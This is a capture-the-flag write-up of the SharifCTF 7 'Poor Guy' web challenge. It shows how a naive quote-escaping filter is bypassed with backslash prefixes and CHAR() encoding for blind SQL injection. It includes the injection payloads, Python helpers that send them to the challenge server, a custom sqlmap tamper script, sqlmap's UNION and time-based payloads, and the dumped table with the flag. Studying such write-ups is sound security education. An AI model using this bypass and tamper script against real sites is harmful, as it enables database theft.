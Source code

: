 ```yaml
---
layout: post
title: "SharifCTF 7: Poor Guy (Web 150)"
author: f0rki
categories: writeup
tags: [cat/web, tool/sqlmap]
---
```


* **Category:** Web
* **Points:** 150
* **Description:**

>I'm a poor guy.  Please buy me the secret flag.
>
>  * username: poorguy
>
>  * password: withnomoney
>
>  Hint: SQL Injection
>
>  Hint 2: `$input_escaped = str_replace("'","\'",$user_input);`

## Write-up

So we could log in to a bookstore and "buy" books if we had the serial number.
We were pretty confident that it was a SQL injection but didn't get anything
reasonable out with our queries. Only with the second hint we finally realized
what the problem was.

```php
$input_escaped = str_replace("'","\'",$user_input);
```

Now this is the poor mans version of `addslashes` and can be easily bypassed by 
prepending a `\` to every `'`. This way
`\'` turns to `\\'`, which is an escaped backslash.

Problem with this is that it breaks all the strings in the queries. So we
cannot really use such `'strings'` in our query. This can be avoided by 
replacing literal strings with  something like`CHAR(0x73)+CHAR(0x74)+CHAR(0x72)+CHAR(0x69)+CHAR(0x6e)+CHAR(0x67)`.

So we could achieve a blind SQL injection with the `book_selection` parameter.
For example with the following input:

```sql
9780060878849\' or 1=1 and substring(@@version,1,1)=5 -- x
```

With the following python helpers I managed to extract a good deal of
information out of the database, but got bored/annoyed by extracting
tablesnames etc.

```python

def view_book(book_selection):
    log.debug("payload: " + repr(book_selection))
    res = s.post('http://ctf.sharif.edu:8086/index.php',
                 data={'book_selection': book_selection})
    return res


def inject(pl):
    pl = r"1234\' " + pl
    return view_book(pl)


def char_encode(s):
    r = []
    for c in s:
        r.append("CHAR(0x{:x})".format(ord(c)))
    return "+".join(r)


def test_query(q):
    pl = r"1234\' or 1=1 and " + q + " -- x"
    for s in re.findall(r"[^\\]'(.+?)'", pl):
        # print(s)
        ns = char_encode(s)
        pl = pl.replace("'" + s + "'", ns)
    return "<img src" in view_book(pl).text.split("\n")[-10]
```

I turned to `sqlmap` for help, as all this tedious stuff is already impelmented
there.  Of course it wouldn't detect anything useful because it doesn't know
about the custom filter function. So I wrote a custom tamper script to modify
the payload, which then worked out.

```python
#!/usr/bin/env python

import re

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOWEST


def dependencies():
    pass


def char_encode(s):
    r = []
    for c in s:
        r.append("CHAR(0x{:x})".format(ord(c)))
    return "+".join(r)


def tamper(payload, **kwargs):
    for s in re.findall(r"[^\\]'(.+?)'", payload):
        ns = char_encode(s)
        payload = payload.replace("'" + s + "'", ns)
    # assert "'" not in payload, "nope nope " + repr(payload)
    return r"\' or 1=1 " + payload
```

`sqlmap` identified the following injection points

```
Parameter: #1* ((custom) POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: book_selection= AND SLEEP(5)-- uejC

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: book_selection=-5036 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x71767a7a71,0x486b646f6e65526d4679486976496a785a7975795778684a47784552524e4d6d4b4e72697070514a,0x7170
7a6a71),NULL-- SOWX
```

and dumped the table, which contained the flag

```
Database: book_shop
Table: books
[4 entries]
+---------+---------------------+---------------+------------+--------------------------------------+---------------------------------------------+
| book_id | book_name           | book_isbn     | is_premium | book_cover                           | book_serial                                 |
+---------+---------------------+---------------+------------+--------------------------------------+---------------------------------------------+
| 1       | Poor people         | 9780060878849 | 0          | .\\book covers\\poor people.png      | 123456                                      |
| 2       | Hacking for dummies | 9781118380932 | 0          | .\\book covers\\hack for dummies.jpg | 7890                                        |
| 3       | Secret flag         | 9788479536442 | 1          | .\\book covers\\secret flag book.jpg | SharifCTF{931b20ec7700a61e5d280888662757af} |
| 4       | Leading             | 9781473621640 | 0          | .\\book covers\\leading.jpg          | 239rj2if3r23re                              |
+---------+---------------------+---------------+------------+--------------------------------------+---------------------------------------------+
```
